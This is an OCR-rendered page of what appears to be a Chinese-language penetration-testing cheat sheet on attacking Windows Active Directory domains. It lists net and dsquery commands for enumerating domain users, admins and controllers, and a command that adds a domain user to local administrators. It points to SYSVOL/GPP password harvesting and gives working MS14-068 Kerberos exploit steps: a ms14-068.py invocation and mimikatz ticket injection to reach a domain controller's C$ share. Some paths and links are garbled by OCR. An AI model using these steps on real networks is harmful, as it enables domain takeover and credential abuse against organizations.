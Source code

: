 ```
net user ------> 本机用户列表
net localgroup administrators ------> 本机管理员[通常含有域用户]
net user /domain ------> 查询域用户
net group /domain ------> 查询域里面的工作组
net group "domain admins" /domain ------> 查询域管理员用户组
net localgroup administrators /domain ------> 登录本机的域管理员
net localgroup administrators workgroup\user001 /add ----->域用户添加到本机 net group "Domain controllers" -------> 查看域控制器(如果有多台)
net view ------> 查询同一域内机器列表 net view /domain ------> 查询域列表
net view /domain:domainname
```

dsquery

```
dsquery computer domainroot -limit 65535 && net group "domain
computers" /domain ------> 列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain------>列出该域内所有用户名
dsquery subnet ------>列出该域内网段划分
dsquery group && net group /domain ------>列出该域内分组 
dsquery ou ------>列出该域内组织单位 
dsquery server && net time /domain------>列出该域内域控制器 
```

### 第三方信息收集

- NETBIOS 信息收集
- SMB 信息收集
- 空会话信息收集
- 漏洞信息收集等

# 3.获取域控的方法

##### SYSVOL

SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。 相关阅读:

- [寻找SYSVOL里的密码和攻击GPP（组策略偏好）](http://www.freebuf.com/vuls/92016.html)
- [Windows Server 2008 R2之四管理Sysvol文件夹](http://blog.51cto.com/ycrsjxy/203095)
- [SYSVOL中查找密码并利用组策略首选项](https://adsecurity.org/?p=2288)
- [利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653)

##### MS14-068 Kerberos

```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```

利用mimikatz将工具得到的[TGT_domainuser@SERVER.COM.ccache](mailto:TGT_domainuser@SERVER.COM.ccache)写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```
